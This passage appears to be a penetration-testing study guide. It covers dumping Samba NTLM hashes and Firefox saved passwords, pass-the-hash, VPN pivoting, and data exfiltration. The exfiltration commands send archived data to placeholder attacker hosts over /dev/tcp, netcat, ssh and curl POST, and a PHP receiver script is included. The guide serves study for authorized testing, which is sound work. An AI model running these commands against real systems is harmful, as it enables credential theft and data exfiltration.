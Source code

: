 When a new Samba user is created, its information is stored in the `/var/lib/samba/private/secrets.tdb` file. If we are root we can access to this information, including NTLM hashes, using: `tdbdump /var/lib/samba/private/secrets.tdb`.
Once obtained the NTLM hashes, we can pass-the-hash to Active Directory using the [`pth-smbclient` tool](https://github.com/byt3bl33d3r/pth-toolkit).

(28/40) [*VPNPivot*](https://github.com/0x36/VPNPivot) is a tool that creates a VPN tunnel between the attacker and the compromised Linux machine, and allows pivoting to other hosts internally within an organization that may be behind NAT and/or firewalls.

(31/40) *Dumping stored Firefox credentials*.
Firefox creates user profiles stored in `~/.mozilla/firefox`. The saved browser passwords are stored there, in a file called `logins.json` and can be dumped with the [`firefox_decrypt.py`](https://raw.githubusercontent.com/unode/firefox_decrypt/main/firefox_decrypt.py) script that will work only if the master password has not been set.

### Data Exfiltration - Study Guide

(04/17) Data Exfiltration.
The goal is to move the data we have acquired securely, outside of the organization infrastructure to our attacker-controlled systems.
This is typically done to test security controls a customer has put in place that would detect things like personally information leaving the infrastructure perimeter or moving across the wire.
Make sure not to transfer anything in cleartext over-the-wire.

(07/17) Exfil over *TCP socket* with EBCDIC and Base64 encoding.
- Target system.
`tar zcf - /tmp/<DataFolder> | base64 | dd conv=ebcdic > /dev/tcp/<AttackerIP>/<AttackerPort>`: where
	- `tar zcf - /tmp/<DataFolder>`: creates a compressed archive (`.tar.gz`) of the specified folder (`/tmp/<DataFolder>`) and sends the output to stdout (`-`) without saving the archive to disk.
	- `/dev/tcp/<AttackerIP>/<AttackerPort>`: is a special address in Linux that allows opening a TCP connection to a specified IP address and port.
- Attacker system.
	- `nc -nl -p <AttackerPort> -v > datafolder.tmp`: where `> datafolder.tmp` sends the output of the previous command (in this case, the data received by netcat) to the specified file (`datafolder.tmp`).
	- `dd conv=ascii if=datafolder.tmp | base64 -d > datafolder.tar`: decodes the received data and redirects the output to a compressed archive file.
	- `tar xf datafolder.tar`: extract the archive.

(11/17) Exfil over *SSH*.
- Target system.
`tar zcf - /tmp/<DataFolder> | ssh <AttackerUser>@<AttackerIP> -p <AttackerPort> "cd /tmp; tar zxpf -"`: where `ssh <AttackerUser>@<AttackerIP> -p <AttackerPort> "cd /tmp; tar zxpf -"`: sends the data to the attacker system through an SSH connection and extracts the archive received from the standard input (`-`) in the `/tmp` directory.
- Attacker system: here the data is already extracted, so we can browse to the `/tmp/<DataFolder>` and view the data.

(13/17) Exfil via POST request over *HTTPS*.
Here, as pre-requisites, we need a PHP-based webserver (configured to execute PHP scripts) that is under our control, and an SSL certificate installed in it.
- Target system.
`curl --data "$(tar zcf - /tmp/<DataFolder> | base64)" https://<AttackerIP>/<PHPScript>`: where
	- specifies the data to send in the POST request.
	- specifies the URL of the web server and the PHP script that will receive the POST request with the data. The `https` option indicates that the request will be sent over a secure channel.
- Attacker system.
	- here we have the content of the `<PHPScript>`: `<?php file_put_contents('/tmp/<DataFolder>', file_get_contents('php://input')); ?>`: where
		- the function `file_get_contents('php://input')` reads the data sent via the HTTP POST request. The string `'php://input'` in PHP represents the body of the incoming HTTP request.
		- the function `file_put_contents(...)` writes the data read from the POST request into the specified file (`/tmp/<DataFolder>`).